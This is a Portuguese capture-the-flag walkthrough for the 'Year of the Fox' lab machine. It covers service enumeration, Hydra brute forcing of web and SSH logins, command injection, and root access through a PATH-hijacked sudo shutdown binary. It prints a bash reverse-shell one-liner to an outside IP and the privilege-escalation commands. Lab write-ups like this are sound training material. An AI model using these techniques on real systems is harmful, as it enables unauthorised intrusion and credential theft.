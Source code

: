 # CTF_y3ar_0f_th3_f0x
walkthrough yearofthefox

*Capture the flag classificado como Difícil 

******************************************************************************************
Vou começar enumerando os serviços no host com o Nmap.

![fox0 2](https://github.com/user-attachments/assets/9497c669-b7f2-4bdd-8510-cd86bffa1d11)

******************************************************************************************
Usando o smbclient, existe um compartilhamento chamado yotf, porem precisamos da senha.

 us3r  ~  smbclient -L //10.10.18.229
Password for [WORKGROUP\us3r]:

	Sharename       Type      Comment
	---------       ----      -------
	yotf            Disk      Fox's Stuff -- keep out!
	IPC$            IPC       IPC Service (year-of-the-fox server (Samba, Ubuntu))


![fox0 3](https://github.com/user-attachments/assets/253ebfc0-6749-41c1-83a5-285e52290969)

******************************************************************************************
Vou usar o enum4linux para listar os usuários disponíveis. Encontramos 2 usuários válidos: fox e rascal.

![fox0 4](https://github.com/user-attachments/assets/f865ba47-1778-459e-b986-88271d0551ad)

******************************************************************************************
Se no serviço da web não revelar senhas, precisaremos usar brute force

![fox0 5](https://github.com/user-attachments/assets/454d2602-828d-4e07-a9e9-e710ece3911a)

sou imediatamente bloqueado, pois todo o caminho é protegido por senha usando uma autenticação básica.

******************************************************************************************
Vou tentar forçar a autenticação com hydra usando rascal como usuário

![fox0 6](https://github.com/user-attachments/assets/075d4faf-9659-4af9-b5e1-d13ebf1e3cc8)

[80][http-get] host: 10.10.18.229   login: rascal   password: miroku
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-19 22:52:19
 us3r  ~  ^C

e encontrei o password

******************************************************************************************
Agora que logou, podemos entrar no site. É um search engine que pesquisa arquivos de texto.

![fox0 7](https://github.com/user-attachments/assets/839afcd7-5ed8-4e12-b03a-ff3e47544be8)
![fox0 8](https://github.com/user-attachments/assets/7bc2412d-e441-48e7-a8e5-b082f765e04b)

******************************************************************************************
A interceptação com o BurpSuite mostra que a solicitação é enviada para um arquivo search.php e a entrada do usuário é passada em uma string tipo JSON.

![fox0 9](https://github.com/user-attachments/assets/f5705618-dddb-40ec-86af-d2751c633a57)
******************************************************************************************
Vou usar o repeater do BurpSuite para reenviar solicitações

![fox1 1](https://github.com/user-attachments/assets/4020fca6-3aec-47be-88fd-0e78801c5d07)

******************************************************************************************
tentar injetar um shell reverso em bash 

echo -n "bash -i >& /dev/tcp/10.6.90.2/4444 0>&1" | base64

![fox1 2](https://github.com/user-attachments/assets/cb664284-5903-4e80-b3c6-d318b4478660)

******************************************************************************************
a requisição com o shell reverso codificado em base64
![fox1 3](https://github.com/user-attachments/assets/250dd357-101b-466f-ac63-e40b1d9e6c26)

******************************************************************************************
Tenho o shell reverso com netcat e garatimos a primeira flag 
![fox1 4](https://github.com/user-attachments/assets/cc9bf4eb-1020-42d9-9d87-2b8319d43808)

******************************************************************************************
Busquei por configurações SSH [sshd_config] pra verificar se existe serviço escutando em localhost,
confirmado pelo arquivo de configuração sshd_config, que informa que só o usuário Fox pode se conectar

![fox1 7](https://github.com/user-attachments/assets/cd9b643d-f651-4fc9-88ae-5e1c8d0dabf7)

******************************************************************************************

Posso usar o socat para abrir outra porta (por exemplo, 2222) e redirecionar para a porta 22 no localhost. Como o socat não está disponível no alvo, vou baixá-lo da minha máquina:

![fox1 8](https://github.com/user-attachments/assets/b143aef4-556c-42cd-9e6a-bf900f024380)
------------------------------------------------------------------------------------------
![fox1 9](https://github.com/user-attachments/assets/c69c5c81-b5ad-4fe5-8558-b899319f00a5)

******************************************************************************************
consegui a conexão SSH na porta 2222. Hora de um novo ataque brute force
![fox2](https://github.com/user-attachments/assets/3a5869e3-2d29-4a79-bd4f-1e45da2993e9)

******************************************************************************************
Temos a senha e vou fazer a conexão via ssh -p 2222
![fox2 1](https://github.com/user-attachments/assets/c8eda088-4fb2-4530-ad34-8d1a10831b9a)

e temos a SEGUNDA FLAG
******************************************************************************************

verifiquei os priviçegios do fox com sudo -l e mostra que podemos executar o shutdown como root sem senha.
Ao realizar eng reversa no codigo mostra que o executável de desligamento provavelmente foi escrito pelo autor do desafio. ele depende da função de desligamento

void main() {
    system("poweroff");
    return;
}

Vamos explorar a vulnerabilidade encontrada fazendo uma cópia do bash que chamaremos em vez de desligar:
cp /bin/bash poweroff
sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown

![fox2 2](https://github.com/user-attachments/assets/7cb83a9f-f5ac-4492-abdd-781a18c5274e)

******************************************************************************************
Foi escalado pra user ROOT!!!
a flag não estava disponivel no diretorio principal, mas sim oculta dentro do home/rascal.
ai está a TERCEIRA FLAG!

![fox2 3](https://github.com/user-attachments/assets/61f06ef5-0f81-4a7d-b212-be6d05c4c01a)






